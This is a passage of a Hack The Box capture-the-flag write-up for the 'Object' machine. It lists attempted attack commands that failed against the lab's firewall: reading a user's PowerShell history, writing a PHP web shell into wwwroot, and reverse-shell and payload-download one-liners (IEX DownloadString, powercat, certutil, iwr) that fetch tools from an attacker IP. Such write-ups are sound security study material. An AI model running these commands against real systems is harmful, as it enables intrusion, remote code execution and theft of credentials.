Trying several other things like reading oliver's powershell history:

```
type C:\Users\oliver\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Or writing we web shell to wwwroot:

```
echo '<?php SYSTEM($_REQUEST['cmd']); ?>' >> "C:\inetpub\wwwroot\cmd.php"
```

all failed.

Same goes for any type of reverse shell activity due to the firewall:

```
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://10.10.14.214/Invoke-PowerShell.ps1')); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.214 -Port 443

powershell.exe  "IEX ((New-Object Net.WebClient).DownloadString('http://10.10.14.214/powercat.ps1')); powercat.ps1 -c 10.10.14.214 -p 443 -ep;"

powershell.exe -c iwr http://10.10.14.214/nc64.exe -outfile nc.exe

certutil -urlcache -split -f "http://10.10.14.214/nc64.exe" C:\users\oliver\documents\nc64.exe
```

### Foothold 

We can view Jenkins files:

![htb_object_jenkins_files.png](../assets/object_assets/htb_object_jenkins_files.png)
